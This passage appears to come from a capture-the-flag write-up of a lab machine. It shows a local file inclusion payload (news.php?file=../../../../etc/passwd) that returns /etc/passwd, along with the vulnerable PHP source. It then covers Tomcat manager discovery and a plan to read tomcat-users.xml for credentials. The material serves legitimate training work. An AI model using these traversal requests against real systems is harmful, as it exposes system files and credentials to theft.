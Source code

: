 * __URL: __`http://megahosting.htb/news.php?file=../../../../etc/passwd`
	returns the `/etc/passwd` file
	
	  root:x:0:0:root:/root:/bin/bash
	  ...
	  ash:x:1000:1000:clive:/home/ash:/bin/bash
	  
	this verifies the __LFI vulnerability__

### Local File Inclusion (LFI)

* first i tried to check the `news.php` source code to understant whats is going on behind this `file` parameter

	`megahosting.htb/news.php?file=../news.php`

	  <?php
	  $file = $_GET['file'];
	  $fh = fopen("files/$file","r");
	  while ($line = fgets($fh)) {
	    echo($line);
	  }
	  fclose($fh);
	  ?>
    
    * there is a simple `file_get_contents` Filesystem Functions of PHP
    * reading php [file_get_contents doc](https://www.php.net/manual/en/function.file-get-contents.php)
        * file_get_contents — Reads entire file into a string
    * that means i can access any file that accessable from server using `LFI` but can not execute any remote code or `RFI`

* spending some time on `LFI` but don't file any intreting information except `/etc/passwd`

## Tomcat

* get default page on `http://10.10.10.194:8080/`
* from default page found some information
    * server is running `tomcat9`
    * file to Tomcat managing instance

		  http://10.10.10.194:8080/manager/html
		  http://10.10.10.194:8080/host-manager/html
		  
### manager

* require creds to access and through an error
* in the error 

	   You are not authorized to view this page. If you have not changed any configuration files, please examine the file conf/tomcat-users.xml in your installation. That file must contain the credentials to let you use this webapp. 
	   
    * error indicate the file that contains the tomcat manager creds and i have `LFI` that means i can read that file.
    
* i try to google for tomcat file path and found [here](https://packages.debian.org/sid/all/tomcat9/filelist)
